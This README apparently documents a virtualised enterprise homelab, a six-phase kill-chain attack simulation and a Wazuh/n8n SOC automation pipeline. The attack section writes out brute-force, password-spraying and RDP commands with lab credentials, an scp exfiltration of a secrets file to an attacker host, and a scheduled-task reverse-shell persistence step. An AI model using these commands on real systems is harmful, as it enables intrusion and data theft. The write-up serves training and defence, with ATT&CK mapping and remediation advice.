

# Enterprise 101 – Cybersecurity Homelab with Attack Simulation and SOC Automation

A fully virtualized enterprise cybersecurity homelab designed to simulate real-world attack chains and automated SOC operations using open-source security tools.

This project demonstrates both offensive and defensive security workflows inside a controlled enterprise environment — from reconnaissance and phishing to SIEM detection, alert enrichment, AI-assisted incident analysis, and automated case management.

---

## What this is

Most cybersecurity learning happens in isolation. You do a phishing lab here, a privilege escalation challenge there, maybe set up a SIEM somewhere else. What you rarely get is everything together — an actual attack running through an actual corporate-style network, while a detection and response system watches in real time.

That's what this project is. We built a seven-machine virtualised enterprise environment, ran a complete adversary simulation through it (reconnaissance all the way to persistence), and built an automated SOC pipeline alongside it that goes from Wazuh alert to analyst-ready incident case in under 15 seconds. No synthetic data, no mock alerts — real tools hitting real virtual machines.

---

## Demo

https://github.com/hemraj5003/Homelab---Enterprise-101/demo.mp4

> Full walkthrough of the attack simulation and SOC pipeline firing in real time. Watch the Telegram alert land while Wazuh is still processing the event.

---

## The lab environment

Everything runs on a single host using VirtualBox or VMware Workstation Pro. All machines sit on a NAT network (`project-x-nat`, `10.0.0.0/24`) so they can talk to each other but are fully isolated from the internet.


*Full system architecture — the attack flows left to right through the enterprise network, while Wazuh and the n8n pipeline handle detection and response on the right side.*

| Hostname | IP | Role | OS |
|---|---|---|---|
| project-x-dc | 10.0.0.5 | Domain Controller (AD, DNS, DHCP) | Windows Server 2025 |
| project-x-admin | 10.0.0.8 | Corporate Server + MailHog | Ubuntu Server 22.04 |
| project-x-sec-box | 10.0.0.10 | Wazuh SIEM | Ubuntu Server 22.04 |
| project-x-win-client | 10.0.0.100 | Enterprise Workstation | Windows 11 Enterprise |
| project-x-linux-client | 10.0.0.101 | Dev Workstation | Ubuntu Desktop 22.04 |
| project-x-sec-work | 10.0.0.103 | Security Workstation | Security Onion |
| project-x-attacker | Dynamic | Attacker Machine | Kali Linux 2024.x |

The Domain Controller handles DNS and DHCP for the whole subnet. The Wazuh agents on each endpoint ship logs to the central SIEM on `project-x-sec-box`.

---

## Attack simulation – six phases, real tools

The attack follows the Lockheed Martin Cyber Kill Chain. Each phase builds directly on what the previous one gives you — which is exactly how real intrusions work.

### Phase 1 – Reconnaissance
- `nmap -p1-1000 -Pn -sV 10.0.0.8/24` to scan the subnet and find SSH exposed on the corporate server
- `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8` to brute-force the SSH login (cracked: `root / november`)
- After SSHing in, queried the internal MailHog API to identify a real user target: `janed@linux-client`

### Phase 2 – Initial Access via Spear-Phishing
- Stood up a fake credential-harvesting portal on the Kali machine using Apache2
- Used Python `smtplib` to send a phishing email through MailHog's SMTP relay — delivered internally, bypasses external spam filters entirely
- Captured credentials from the log when Jane hit the phishing link: `janed / @password123!`
- SSHed into the Linux workstation with the stolen credentials

### Phase 3 – Lateral Movement (Windows Workstation)
- Full port scan revealed WinRM open on the Windows 11 workstation (`10.0.0.100`, ports 5985/5986)
- Password sprayed with NetExec: `nxc winrm 10.0.0.100 -u users.txt -p pass.txt` → confirmed `Administrator / @Deeboodah1!`
- Opened an interactive PowerShell shell using Evil-WinRM
- `nltest /dsgetdc:` identified the domain and Domain Controller at `10.0.0.5`

### Phase 4 – Lateral Movement to the Domain Controller
- Credential reuse: the same Administrator password worked on the DC
- `xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com` gave a full graphical RDP session on the Domain Controller
- Found sensitive files at `C:\Users\Administrator\Documents\ProductionFiles\secrets.txt`

### Phase 5 – Data Exfiltration
- From the RDP session on the DC, used SCP to pull the file directly to the attacker machine:
  `scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt`

### Phase 6 – Persistence
- Created a rogue Domain Admin account using `net user` and added it to both `Administrators` and `Domain Admins`
- Dropped a PowerShell reverse shell script (`reverse.ps1`) on the DC and created a daily scheduled task to run it at noon (`schtasks /create /tn "PersistenceTask" ...`)
- Tested with a netcat listener — connection came back clean

**Complete attack path:**
`Exposed SSH → Weak password cracked → MailHog queried → Spear-phishing delivered → Credentials stolen → Linux workstation compromised → WinRM found → Password sprayed → Windows shell obtained → DC RDP'd → Domain Admin achieved → Data exfiltrated → Rogue account + reverse shell persistence`

---

## SOC automation pipeline

When Wazuh fires a high-severity alert, a webhook kicks off an n8n workflow that does everything a tier-1 analyst would otherwise do manually — in under 15 seconds.

![n8n SOC Automation Workflow]
*The actual n8n workflow — webhook ingestion, IP branching, VirusTotal enrichment, Groq LLM summarisation, and parallel output to Telegram and TheHive.*

```
Wazuh alert → n8n webhook → IP check (public or private RFC1918?)
    ├── Public IP → VirusTotal API lookup (malicious votes, ASN, country)
    └── Private IP → skip VirusTotal, pass internal context
         ↓
    Groq LLM (LLaMA 3 / Mixtral) → generates analyst-readable incident summary
         ↓
    ├── TheHive → structured incident case created with all enriched fields
    └── Telegram → real-time SOC alert to the analyst channel
```

Without this pipeline, a tier-1 analyst has to open the SIEM, parse the raw JSON, look up the IP manually, decide on severity, create the TheHive case, and notify the team. All of that is replaced by one Telegram message that arrives in 10–15 seconds and already tells you what happened, how serious it is, and what to do first.

---

## Tools used

**Offensive:**
- `nmap` – network scanning and host discovery
- `Hydra` – SSH brute-force with rockyou.txt
- `NetExec (nxc)` – WinRM/SMB/RDP password spraying
- `Evil-WinRM` – interactive PowerShell via WinRM
- `xfreerdp` – RDP client for DC access
- `Apache2 + Python smtplib` – phishing site and email delivery

**Defensive / Monitoring:**
- `Wazuh SIEM` – log ingestion, intrusion detection, webhook alerting
- `Security Onion` – network-level IDS/IPS monitoring

**SOC Automation:**
- `n8n` – workflow orchestration
- `VirusTotal API` – IP reputation and threat intel
- `Groq (LLaMA 3 / Mixtral)` – AI-assisted alert summarisation
- `TheHive` – incident case management
- `Telegram Bot API` – real-time analyst notifications

---

## MITRE ATT&CK mapping

| Tactic | Technique ID | Technique | Tool |
|---|---|---|---|
| Reconnaissance | T1595 | Active Scanning | nmap |
| Reconnaissance | T1110.001 | Brute Force – Password Guessing | Hydra |
| Initial Access | T1566.002 | Spearphishing Link | smtplib + Apache2 |
| Initial Access | T1078 | Valid Accounts | Stolen credentials |
| Lateral Movement | T1021.006 | WinRM | Evil-WinRM |
| Lateral Movement | T1021.001 | RDP | xfreerdp |
| Lateral Movement | T1110.003 | Password Spraying | NetExec |
| Privilege Escalation | T1078.002 | Domain Accounts | Credential reuse |
| Exfiltration | T1048 | Exfiltration Over Alt Protocol | SCP |
| Persistence | T1136.002 | Create Domain Account | net user / net group |
| Persistence | T1053.005 | Scheduled Task | schtasks + reverse.ps1 |
| Persistence | T1059.001 | PowerShell | Reverse shell |
| Defense Evasion | T1562.001 | Disable Security Tools | Defender bypass |

---

## Key findings and remediation

The attack required no custom malware and no zero-days. Just standard, freely available tools — and absent basic security hygiene. The main weaknesses exposed:

- **Weak SSH password on the corporate server** → Disable password auth, enforce SSH key-only login
- **MailHog unauthenticated on the internal network** → Never expose internal mail services without auth
- **WinRM enabled with reused credentials** → Disable WinRM where not needed, enforce MFA and JIT admin access
- **Credential reuse across workstation and DC** → Deploy LAPS for unique local admin passwords per machine
- **No MFA on Domain Admin accounts** → Non-negotiable: MFA on all privileged accounts
- **RDP directly exposed on the DC** → Restrict to jump servers or VPN only
- **No real-time alert on scheduled task creation** → Alert on Windows Security Event 4698
- **New Domain Admin account not flagged immediately** → Alert on Event 4728 (Domain Admins group modification)
- **Outbound SCP from the DC not blocked** → DLP controls on high-value servers

---


## References

- [MITRE ATT&CK Framework](https://attack.mitre.org)
- [Wazuh Documentation](https://documentation.wazuh.com)
- [n8n Documentation](https://docs.n8n.io)
- [VirusTotal API v3](https://developers.virustotal.com/reference)
- [TheHive Project](https://thehive-project.org)
- [Groq API](https://console.groq.com/docs)
- [Lockheed Martin Cyber Kill Chain](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
- [NetExec](https://github.com/Pennyw0rth/NetExec)
- [MailHog](https://github.com/mailhog/MailHog)
- [Security Onion Documentation](https://docs.securityonion.net)
